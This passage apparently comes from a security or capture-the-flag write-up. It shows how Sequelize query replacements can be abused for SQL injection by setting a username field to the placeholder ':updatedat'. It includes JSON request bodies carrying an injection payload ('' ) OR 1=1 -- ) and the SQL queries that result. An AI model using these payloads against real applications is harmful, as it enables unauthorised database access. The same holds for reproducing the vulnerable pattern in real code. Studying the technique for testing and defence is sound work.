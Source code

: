 Let's apply the same principle to our scenario.

```json
{
    "username": ":updatedat",
    "updatedat": "SQLI_GOES_HERE",
    "attachment": "document.txt",
    "content": "meow"
}
```

Sequelize will first generate this query:

```sql
SELECT * FROM users WHERE (strftime('%Y-%m-%d', updatedAt) >= :updatedat)
	AND name = ":updatedat"
	AND verify = 1
LIMIT 1;
```

Then it injects the replacements:

```sql
SELECT * FROM users WHERE (strftime('%Y-%m-%d', updatedAt) >= "SQLI_GOES_HERE")
	AND name = "SQLI_GOES_HERE"
	AND verify = 1
LIMIT 1;
```

That's not valid SQL syntax, so we trigger an error. Developers fear errors but hackers welcome them - progress! 🙏

![](./images/1.PNG)

Let's try again.

```json
{
    "username": ":updatedat",
    "updatedat": "'' ) OR 1=1 -- ",
    "attachment": "document.txt",
    "content": "meow"
}
```

After replacement:

```sql
SELECT * FROM users WHERE (strftime('%Y-%m-%d', updatedAt) >= '' ) OR 1=1 -- )
	AND name = "'' ) OR 1=1 -- "
	AND verify = 1
LIMIT 1;
```
